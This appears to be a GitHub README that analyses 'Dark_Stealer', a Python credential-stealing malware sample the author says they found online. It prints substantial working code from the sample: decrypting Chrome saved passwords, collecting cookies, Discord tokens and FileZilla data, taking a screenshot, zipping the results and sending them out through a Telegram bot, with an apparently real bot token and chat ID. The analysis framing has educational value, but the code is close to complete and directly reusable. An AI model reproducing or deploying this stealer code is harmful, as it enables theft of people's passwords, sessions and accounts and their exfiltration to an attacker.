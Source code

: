 # Dark_Stealer-V1.0-
While browsing the interent I found this unmarked python file packed away into a seperate folder trying to hides itself as a trojan. I looked into it and found exactly what it was aiming to do. The code is aiming to grab the users disocrd token and save it to the folder. The main executable likely sent the working discord tokens, cookies, and screenshots back to the owner of the malware. I found this all incredibly interesting so I decided to publish it all for you to see. It also seems to be posting to telegram as far as I can tell from the token included.

## Analysis
```python
username = os.getlogin()
token = '756172703:AAHyXD5Tii9J-JBl98-mAGGJxeTKKvSJG2s'
bot = telebot.TeleBot(token)
```
This code snippet is the malwares form of communicating VIA telegram after its scraped all of your data. Whats so nasty about this though is how much data it scrapes.
```python
def Chrome():
    text = 'Stealer coded by Dark $ide\n\n\nPasswords Chrome:' + '\n'
    text += 'URL | LOGIN | PASSWORD' + '\n'
    if os.path.exists(os.getenv("LOCALAPPDATA") + '\\Google\\Chrome\\User Data\\Default\\Login Data'):
        shutil.copy2(os.getenv("LOCALAPPDATA") + '\\Google\\Chrome\\User Data\\Default\\Login Data', os.getenv("LOCALAPPDATA") + '\\Google\\Chrome\\User Data\\Default\\Login Data2')
        
        conn = sqlite3.connect(os.getenv("LOCALAPPDATA") + '\\Google\\Chrome\\User Data\\Default\\Login Data2')
        cursor = conn.cursor()
        cursor.execute('SELECT action_url, username_value, password_value FROM logins')
        for result in cursor.fetchall():
            password = win32crypt.CryptUnprotectData(result[2])[1].decode()
            login = result[1]
            url = result[0]
            if password != '':
                text += url + ' | ' + login + ' | ' + password + '\n'
    return text
file = open(os.getenv("APPDATA") + '\\google_pass.txt', "w+")
file.write(str(Chrome()) + '\n')
file.close()
```
The following code as show above is it goes through all of the biggest browsers and grabs every shred of data it can for your discord account and stores it in a text file. It proceeds to do that for the following websites: Chrome, Yandex, Firefox, Chromium, Amigo, Opera, and even Firezilla. It proceeds to also save the cookies and discord token to a text file. For all of those browsers.
```python
screen = ImageGrab.grab()
screen.save(os.getenv("APPDATA") + '\\sreenshot.jpg')
```
Here is the scaries two lines of code in this malware sample. The malware itself takes a photo of your screen and saves it to the data anyalsis. 
```python
zname=r'D:\LOG.zip' 
newzip=zipfile.ZipFile(zname,'w') 
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\google_pass.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\google_cookies.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\yandex_cookies.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\chromium.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\chromium_cookies.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\amigo_pass.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\amigo_cookies.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\opera_pass.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\opera_cookies.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\discord_token.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\filezilla.txt')
newzip.write(r'C:\\Users\\' + username + '\\AppData\\Roaming\\sreenshot.jpg')
newzip.close() 

doc = 'D:\LOG.zip'

bot.send_document(439184350, doc)
```
This final snippet of code just tells it to grab everything its just got and to zip and send the file over via telegram. 
### Concluison
This is a scary piece of malware, it may be the future trends of malware not to aim for destruction such as something like wannacrypt or with simple qbots, but instead the mass amounts of data logged and sold on illegal markets. This simple 100+ lines of code tell it to not only steal your cookies, passwords, filezilla information, discord token, but to also take a screenshot.
## TOS
I did not create this, in fact I dont know who created it. I merely found it while treasure hunting on the internet. Please do use this responsibly and don't abuse. This is all meant for educational purposes and if you use this you are breaking the law. Please keep this in mind feel free to email me. Also I would highly suggest not running it since it still contains the token. 


